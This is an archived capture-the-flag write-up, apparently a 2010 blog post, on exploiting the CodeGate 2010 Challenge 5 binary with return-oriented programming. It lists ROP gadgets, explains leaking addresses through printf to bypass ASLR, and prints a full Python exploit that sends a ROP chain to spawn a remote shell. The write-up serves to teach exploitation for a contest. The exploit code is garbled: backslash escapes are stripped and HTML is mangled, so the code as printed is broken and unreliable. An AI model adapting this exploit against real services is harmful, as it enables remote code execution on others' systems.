```yaml
---
title: 'Return-oriented-programming practice: exploiting CodeGate 2010 Challenge 5'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:5:{s:5:"bitly";s:0:"";s:9:"permalink";s:108:"http://www.vnsecurity.net/2010/04/return-oriented-programming-practice-exploiting-codegate-2010-challenge-5/";s:7:"tinyurl";s:26:"http://tinyurl.com/2d6fyn4";s:4:"isgd";s:18:"http://is.gd/bOGUk";s:6:"bitly2";s:20:"http://bit.ly/dv6cNX";}'
tweetbackscheck:
  - 1408358978
twittercomments:
  - 'a:10:{i:13063031217;s:7:"retweet";i:13056900429;s:7:"retweet";i:13055737521;s:7:"retweet";i:13054395208;s:7:"retweet";i:13051541567;s:7:"retweet";i:13051162336;s:3:"304";i:13050605559;s:3:"305";i:13050192544;s:7:"retweet";i:13050161650;s:7:"retweet";i:13049686735;s:3:"306";}'
tweetcount:
  - 10
kopa_newsmixlight_total_view:
  - 2
category:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - CLGT
  - codegate
  - CTF
  - return-oriented-programming
  - rop
---
```

In my <a href="http://www.vnsecurity.net/2010/03/codegate-2010-online-ctf-challenge-4-5-writeup/" target="_blank">previous post</a> about CodeGate 2010 Challenge 5 exploit, I mentioned the weakness of accessing server to get *execl()* address. In this post I will show how to blindly exploit the &#8220;harder&#8221; program without access to the remote server using <a href="http://en.wikipedia.org/wiki/Return-oriented_programming" target="_blank">return-oriented-programming</a> technique.

## ROP introduction

A worth to read post about ROP introduction can be found on Zynamics blog: <a href="http://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/" target="_blank">http://blog.zynamics.com/2010/03/12/a-gentle-introduction-to-return-oriented-programming/</a>

In summary: we will use return-into-instructions (called gadgets) to build and execute our payload when controlled EIP and ESP from vulnerable program.

ROP limitations (difficulties):

*   ASLR: the same as return-into-libc, it&#8217;s difficult to locate address of instructions in library (e.g libc)
*   ASCII-armor address: with ascii-armor remapping of libraries (e.g libc), addresses will contain NULL byte so chaining return-into-libc calls and ROP is impossible if there&#8217;s NULL filter in input

## The &#8220;harder&#8221; case

Fortunately, we can blindly exploit the &#8220;harder&#8221; program using ROP because it provides some &#8220;advantages&#8221; in code:

*   *getline()*: can pass NULL byte to input
*   *printf()*: can leak runtime memory info (bypass ASLR)

## Finding ROP gadgets

Our target is to invoke **execve(&#8220;/bin/sh&#8221;, 0, 0)** syscall, which is equivalent to prepare registers&#8217; value then trigger kernel syscall:

> eax = 0xb // execve  
> ebx = address of &#8220;/bin/sh&#8221;  
> ecx = 0 // argv  
> edx = 0 // env

Searching in harder binary, we found below gadgets:

*   eax: 
    <pre>80483a4:    58                       pop    %eax
80483a5:    5b                       pop    %ebx
80483a6:    c9                       leave
80483a7:    c3                       ret</pre>

*   ebx & ecx: 
    <pre>8048634:    59                       pop    %ecx
8048635:    5b                       pop    %ebx
8048636:    c9                       leave
8048637:    c3                       ret</pre>
    
    &#8220;/bin/sh&#8221; is placed on target buffer, its address is available by leaking via *printf()*</li> </ul> 
    *   edx:  
        There&#8217;s no edx related gadget but observing that when returned from *memcpy()* edx&#8217;s value is set to esi so we can assign esi to 0&#215;0 first then return again to main to nullify edx.</p> 
        <pre>0x001ba506 :    mov    edx,esi
80485e6:    5e                       pop    %esi
80485e7:    5f                       pop    %edi
80485e8:    5d                       pop    %ebp
80485e9:    c3                       ret</pre>
    
    *   syscall:  
        In recent Linux kernel, syscall is usually performed via linux gate: **call gs:[0x10]**. By return to back to *printf()* in harder program many times, we can find the offset from *getline()* to first syscall is 319 bytes.
    
    *   moving stack:  
        After **&#8220;leave; ret&#8221;** our stack will be moved to new location pointing by ebp. We can control this by set ebp back to somewhere in the middle of target buffer.
    
    ## Exploit code
    
    <pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/env python

import socket
import sys
import struct
import telnetlib

#host = 'ctf4.codegate.org'
host = '127.0.0.1'
port = 9005

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect((host, port))

buf=""
# bypass first read
buf = c.recv(1024)

# getline() address
buf = "A"*268 + struct.pack('i', 0x08048524) + struct.pack('i', 0x0804a008) + "n"
c.send(buf)
buf = c.recv(1024)
addr = ""
getline_addr = int(buf[:4][::-1].encode('hex'), 16)
print "getline() is at:", hex(getline_addr)

# call gs:[0x10] address
offset = 319 # first offset is 319 bytes from getline()
syscall_addr = getline_addr + offset

# buffer address
buf = "%7$x" + "x00"*260 + struct.pack('i', 0x08048521)*2 + "n"
c.send(buf)
buf = c.recv(1024)
input_addr = int(buf[:8], 16)
print "Buffer address is at: ", hex(input_addr)

# gadgets address
pop_eax = 0x080483a4
pop_ecx_ebx = 0x08048634
pop_esi = 0x080485e6

# pop esi
buf = "A"*268 + struct.pack('i', pop_esi) + "x00" * 12 + struct.pack('i', 0x08048524)*2  + "n"
c.send(buf)
c.recv(1024)

# pop eax then move stack to new address
input_addr += 560 # lifting after 2 getline() calls
new_stack = input_addr+8
buf = "/bin/shx00" # /bin/sh
buf += struct.pack('i', new_stack+16) # next ebp after leave from pop_eax
buf += struct.pack('i', pop_ecx_ebx) # next is pop_ecx_ebx
buf += "x00"*4 # ecx
buf += struct.pack('i', input_addr) # ebx -&gt; /bin/sh
buf += "A"*4 # un-used ebp after leave from pop_ecx_ebx
buf += struct.pack('i', syscall_addr)
buf = buf.ljust(264, "A") # padding
buf += struct.pack('i', new_stack) # new ebp
buf += struct.pack('i', pop_eax)
buf += "x0bx00x00x00" # execve syscal
buf += "A"*4 # un-used ebx
buf += "n"

print "Sending final payload ..."
c.send(buf)
c.send("id 2&gt;&1" + "n"*5)

t = telnetlib.Telnet()
t.sock = c
t.interact()
c.close()

</pre>